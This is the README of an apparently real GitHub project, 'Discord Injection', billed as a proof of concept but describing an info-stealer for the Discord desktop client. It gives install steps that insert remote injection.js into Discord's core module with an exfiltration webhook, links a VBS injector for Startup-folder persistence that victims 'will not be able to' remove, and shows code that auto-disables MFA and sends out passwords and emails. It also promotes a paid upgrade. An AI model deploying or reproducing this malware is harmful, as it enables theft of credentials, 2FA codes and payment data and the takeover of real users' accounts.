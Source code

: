 
[github-issues-link]: https://github.com/k4itrun/discord-injection/issues
[github-license-link]: https://github.com/k4itrun/discord-injection/blob/main/license
[github-stars-link]: https://github.com/k4itrun/discord-injection/stargazers
[github-forks-link]: https://github.com/k4itrun/discord-injection/network/members

[github-link]: https://github.com/k4itrun/discord-injection

<div align="center">

# [Discord Injection][github-link]

Proof of Concept (PoC) for Intercepting HTTP Requests in Discord

</div>

## Overview

**Discord Injection** is a proof-of-concept tool designed to demonstrate the interception of HTTP requests within the Discord application. This PoC highlights potential vulnerabilities by capturing various critical actions and interactions within Discord.

## Key Features

- **Persistence and Startup**:
  - Once the victim is injected, and everything is perfect, they simply will not be able to remove the injection.
  - Persistence works in such a way that once the user starts their Discord application, an executable is simply created that will check if it contains an injection. If so, it will not be modified, but if not, it will be injected again [More information here](#startup)

- **Forced mail change & edit user**:
  - If this setting is enabled in the automatic change mail injection, then the victim will see a fake security alert & Also if the automatic user modification configuration is active, user data will be modified

- **Login & Authentication**:
  - Intercept login, registration, and two-factor authentication (2FA) requests.
  
- **Account Management**:
  - Capture requests related to email and password changes.
  
- **Security codes**:
  - Obtains all the victim's security codes at capture time.

- **Payment Information**:
  - Monitor credit card and PayPal addition requests.
  
- **Security Measures**:
  - Automatic logout after the initial injection to prevent unauthorized access.
  - QR Code login prevention to enhance security.
  - Block requests that reveal device information.

## Installation Guide

1. **Close Discord**: Ensure that Discord is completely closed before proceeding.

2. **Copy the Injection Code**:
   - Download the [injection code](https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js) and insert it into your Discord desktop core. Navigate to:
     ```bash
     %APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js
     ```

3. **Configure Setup**:
   - Replace `%WEBHOOK_URL%` in the injected code with your Discord webhook URL. This webhook will receive the intercepted information.
   - Replace `%API_URL%` with our api you can get a unique url where you will get detailed information of the victims.
   - Replaces data like `%AUTO_USER_PROFILE_EDIT%`, `%AUTO_EMAIL_UPDATE%` which are a separate configuration in case you want to have an improvement in the attack.

   - *Important this do not change it*
        ```json
        injection_url: "https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js",
        injector_url: "https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs",
        ```

4. **Restart Discord**: Launch Discord again to apply the changes.

## Usage

- **Node.js Injector**:
  - For a more feature-rich injector based on Node.js, visit [DiscordTokenGrabber](https://github.com/k4itrun/DiscordTokenGrabber). It's a free tool with extensive capabilities.


## Startup

- **Persistence Vbs Malware**:
  - Once the victim is injected, several instances will be created on the PC in parallel, simply once the victim is trapped they will not be able to leave.
  
  An autostart task is created on multiple routes as in
    ```Bash
    %APPDATA%\Microsoft\Protect
    ```
    ```Bash
    %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
    ```
    - Firstly, the [Injector Malware](https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs) will be stored here and will be executed whenever the PC starts.

## Preview

### Auto Mfa Disabler
```js
if(CONFIG.auto_mfa_disabler === 'true') {
    await delay(5000);

    const autoMfadisablerToken = await autoMfadisabler(response, token, 'backup');

    content = {
        content: `**${user.username}** mfa was deactivated automatically!`,
        embeds: [{
            fields: [
                { name: "Password", value: `\`${password}\``, inline: true },
                { name: "Email", value: `\`${email}\``, inline: true },
            ],
        }],
    };

    notify(content, autoMfadisablerToken, user);    
};
```
*If you are interested in an improved version with more features such as auto mfa deactivator and premium options you can buy it*

## Disclaimer and Copyrighted
### Essential Advisory: This tool is meant exclusively for learning purposes.
This README serves as an informational resource and does not endorse or encourage any illegal or unethical activities. this injection should only be used responsibly and in compliance with applicable laws and regulations.

### Copyright
This code cannot be taken by any random person and claimed as their own. This code is protected by copyright. If you want to collaborate, create a branch or open an issue. You can also contribute, but you cannot sell this code or promote it as a sale. Credits go to the creators.

### No Support:
Creator (k4itrun) will not assist or address misuse. Harmful use inquiries will be ignored.

### Terms Acceptance:
By using this tool, you accept this disclaimer. If you disagree, do not use the software.
